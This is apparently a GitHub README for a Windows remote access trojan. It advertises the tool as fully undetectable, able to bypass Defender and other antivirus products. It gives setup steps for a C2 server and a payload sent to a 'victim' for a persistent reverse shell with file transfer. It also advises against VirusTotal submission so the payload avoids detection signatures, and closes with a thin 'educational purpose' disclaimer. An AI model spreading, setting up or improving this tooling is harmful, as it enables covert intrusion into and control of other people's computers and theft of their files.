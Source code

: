 # window-rat:

# NOTE:
    Use new Cross Plaftorm FUD RAT https://github.com/machine1337/pyFUD
# Introduction:
    A Fully Undectable Window RAT that bypass window 10 Defender protection and also bypass 99.9% of other antivirus protections.
    
![c2a](https://user-images.githubusercontent.com/82051128/201597249-39a6b071-1277-4bbf-a720-f9d1aa537d0e.png)

# C2 Server Requirements:-
       pip install termcolor
       pip install pyfiglet
 
# Installation:
    1. git clone https://github.com/machine1337/window-rat
    2. pip install -r requirements.txt
    3. python3 c2.py (your command server from where u will handle targets)
    4. payload.py (your payload u will send to victim)
    5. IP and Port in both payload.py and server.py Must be same
    
# Usage:
    1. python3 c2.py
    2. Now enter IP (your IP or server in which u want to get reverse shell)
    3. Now enter PORT (which port u want to connect)
    4. Listener will be started
    5. Now go to payload.py line no. 36 and put ip and port of server s.connect(('ipserver', portserver))
    6. test the payload.py on victim system
 
# Commands:-
   -> C2 SERVER COMMANDS:
      ![c21](https://user-images.githubusercontent.com/82051128/201598677-206191a5-c671-4007-9f9a-402db123ec99.png)
   
   -> After Got Connection (type help)
      ![shellc2](https://user-images.githubusercontent.com/82051128/201598869-0b6fe1c8-9ed6-4e4b-997d-42f66a59f0ca.png)

# Warning:
    1. Don't Upload Any Payloads To VirusTotal.com Bcz This tool will not work
       with Time.
    2. Virustotal Share Signatures With AV Comapnies.
    3. Again Don't be an Idiot!

# Features:
    1. Very Simple And Fully Undectable RAT For Windows
    2. Multi Client Handling
    3. Persistent  Shell
    4. Upload File
    5. Download File
    4. Once Victim Execute the Payload And We got Shell Then Victim Can't Remove the payload
       Until the Shell is Open In Attacker System.
    5. U can Convert payload.py to exe using pyinstaller tool in windows.
    
# Note:
    Don't upload exe format to virustotal as I have already uploaded
    Ps payload to virustotal. or u can check this file on nodistribute.com because they
    don't submit signatures to antivirus companies.
    Reason: They will submit this payload to different AV companies
    And as a result this script will not work w.r.t time.
    
# Donations:
   BTC Address:  3Dvzx2RKMR731VSEPXXgPyBq6Ln4JJdYPD
   


# Warning:
    Use this tool Only for Educational Purpose And I will Not be Responsible For ur cruel act.
    
    
